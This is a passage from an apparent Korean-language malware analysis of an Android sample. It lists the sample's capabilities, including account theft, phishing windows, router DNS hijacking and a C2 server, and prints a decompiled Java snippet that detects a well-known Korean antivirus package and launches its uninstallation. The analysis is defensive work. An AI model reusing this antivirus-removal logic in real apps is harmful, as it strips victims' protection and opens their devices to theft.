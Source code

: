 **② 국내 앱 계정 정보 수집**

**③ Phishing 창 생성 #1**

**④ Phishing 창 생성 #2**

**⑤ 공유기 장악 (DNS Hijacking)**

**⑥ C2 서버 - 공격자 서버 정보 파싱**

**⑦ SMS 관련 동작**

**⑧ 기타 동작**

---

**① A사 백신 삭제**

대한민국에서 가장 유명한 A사의 백신을 삭제하는 로직입니다.

while문을 사용하여 설치된 Package명 중, 백신의 Package명(`com.a**lab.v*`)과 같은 게 있을 경우 삭제하도록 하고 있습니다.

```java
while(!d.n.l.g(((String)v1), "com.a**lab.v3", false, 2, null));
    v2 = v1; // 1. com.a***.v* 으로 시작하는 Package명이 있다면 저장
label_14:
    String v2_1 = (String)v2;
    if(v2_1 != null) { // 2. 존재한다면, DELETE하는 Activity 실행
        Intent v0_1 = new Intent();
        v0_1.setAction("android.intent.action.DELETE");
        v0_1.setData(Uri.parse("package:" + v2_1));
        v0_1.addFlags(0x10000000);
        arg8.startActivity(v0_1); // 안랩을 삭제하는 activity를 넣음
    }
```

실행된 Activity는 아래와 같이 보입니다.

![7.png](/assets/2023-11-15-Android-malware-사마귀-해부학/7.png)

---

**② 국내 앱 계정 정보 수집**
